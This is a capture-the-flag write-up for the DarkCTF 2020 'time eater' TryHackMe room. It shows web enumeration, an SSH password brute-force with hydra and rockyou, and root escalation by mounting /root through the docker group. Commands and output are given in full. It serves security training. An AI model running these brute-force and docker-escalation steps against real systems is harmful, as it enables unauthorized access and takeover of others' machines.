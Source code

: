 # DarkCTF 2020

## linux/time eater

> 63 solves / 446 points
>
> Author: Wolfy
>
> This room requires account on Try Hack Me tryhackme.com/jr/darkctflo
>
> Note: submit the root flag here.

Tags: _linux_ _web_ _bruteforce_ _docker_ _gobuster_


## Summary

Multistage exploit.

1. Find userids and password hint
2. Bruteforce SSH
3. Abuse Docker

Final stage was done by teammate [gp](https://bigpick.github.io/TodayILearned/).

## Stage 1: Find ports

With most of these [tryhackmes](https://tryhackme.com/) I start with nmap enumeration:

```
nmap -Pn -sCV -p22,80 -oN nmap/Basic_10.10.102.97.nmap 10.10.102.97
Nmap scan report for 10.10.102.97
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 64:60:d1:e5:39:96:90:b9:3c:72:b0:35:c2:2a:e4:f9 (RSA)
|   256 3c:07:fb:86:de:65:9b:52:59:70:de:06:2e:58:21:48 (ECDSA)
|_  256 b7:ed:d9:dd:40:46:b4:dc:c8:c3:5c:a1:28:78:73:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dimension by HTML5 UP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

SSH and HTTP.

## Stage 2: Checkout website

There was an email form, but that was about it.

1. Fired off Burp Suite crawler and active scanner.
2. Fired off sqlmap against form.
3. Fired off gobuster (`gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://${IP} --timeout 30s 2>&1 | tee gobuster.out.1`)

Of the three gobuster produced something useful first:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.102.97
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        30s
===============================================================
2020/09/26 14:05:31 Starting gobuster
===============================================================
/images (Status: 301)
/info (Status: 301)
/assets (Status: 301)
/test (Status: 301)
/cd (Status: 301)
/git (Status: 301)
/rabbit (Status: 301)
/server-status (Status: 403)
/uniqueroot (Status: 301)
===============================================================
2020/09/26 14:18:54 Finished
===============================================================
```

Enumerating `/uniqueroot` yielded a file (`/uniqueroot/wolfie_backup_files/chat.txt`) with the following contents:

```
Backup Chat Between Wolfie and Elliot:

Elliot: Hi!
Wolfie: hello.
Elliot: how's your work going?
Wolfie: i am still developing site i am currently at initial state.How's your work going?
Elliot; Oh okay!. Yeah I am working on restricting the users in the server using chroot but currently i am also at initial state some commands working and some still needs to get configured.
Wolfie: Great! how i check the progress?
Elliot: If you want to check my progress you can use (/elliot_important_file).
Wolfie: Thanks!:).

Signing Out...
```

Great, we have two user names `wolfie` and `elliot`, and yet another link that leads to `/elliot_important_file/note.txt` with the following:

```
Wolfie i have added password from rockyou
```

## Stage 3: Brute force SSH

```bash
# hydra -L users -P ../rockyou.txt -M ip.txt -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 14:25:30
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688798 login tries (l:2/p:14344399), ~7172200 tries per task
[DATA] attacking ssh://10.10.102.97:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 28688754 to do in 10866:58h, 4 active
[STATUS] 29.00 tries/min, 87 tries in 00:03h, 28688711 to do in 16487:46h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 28688594 to do in 16406:53h, 4 active
[STATUS] 28.20 tries/min, 423 tries in 00:15h, 28688375 to do in 16955:19h, 4 active
[STATUS] 27.29 tries/min, 846 tries in 00:31h, 28687952 to do in 17520:14h, 4 active
[22][ssh] host: 10.10.102.97   login: elliot   password: godisgood
``` 

```
# ssh elliot@$IP
The authenticity of host '10.10.102.97 (10.10.102.97)' can't be established.
ECDSA key fingerprint is SHA256:y3FWpnBN0WIfyoNeS4c+2T6AAd0HIV8jJNX7yBaaqng.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.102.97' (ECDSA) to the list of known hosts.
elliot@10.10.102.97's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep 27 02:26:38 UTC 2020

  System load:  0.0                Processes:           91
  Usage of /:   18.0% of 23.99GB   Users logged in:     0
  Memory usage: 16%                IP address for eth0: 10.10.102.97
  Swap usage:   0%

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

14 packages can be updated.
0 updates are security updates.

Last login: Tue Sep 15 10:09:00 2020 from 192.168.43.240
elliot@wolf_server:~$
```

We're in.

First thing I typed was `history`:

```
...
sudo -u dark /bin/dash
...
```

The `sudo` stood out:

```
$ sudo -u dark /bin/dash
$ cd /home/dark
$ ls -l
total 4
-rw-r--r-- 1 root root 36 Sep 13 11:50 user.txt
$ cat user.txt
flag{user_flag_for_this_challenge}
```

Not the flag we're looking for.


## Stage 4: Get the flag

I'm going to gloss over what didn't work for me, in short, looking for suids, trying to brute force wolfie's password, looking for other interesting files that may have the goods, checking out cron ("time" was in the challenge title), looking for backups, etc...  the usual stuff.

After all that I just uploaded linpeas, and ran that as elliot and dark.  User dark flagged `docker` as interesting.

```bash
$ docker images
WARNING: Error loading config file: /home/elliot/.docker/config.json: stat /home/elliot/.docker/config.json: permission denied
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        4 months ago        5.57MB

dark@wolf_server:/home/dark$ docker run -v /root:/loot --rm -it alpine /bin/sh
WARNING: Error loading config file: /home/elliot/.docker/config.json: stat /home/elliot/.docker/config.json: permission denied
/ # cd /loot/ [TAB]
.local/     .rootflag/  .ssh/
/ # cd /loot/.rootflag/
/loot/.rootflag # ls -l
total 4
-rw-r--r--    1 root     root            42 Sep 12 14:05 root.txt
/loot/.rootflag # cat root.txt
darkCTF{Escalation_using_D0cker_1ss_c00l}
```
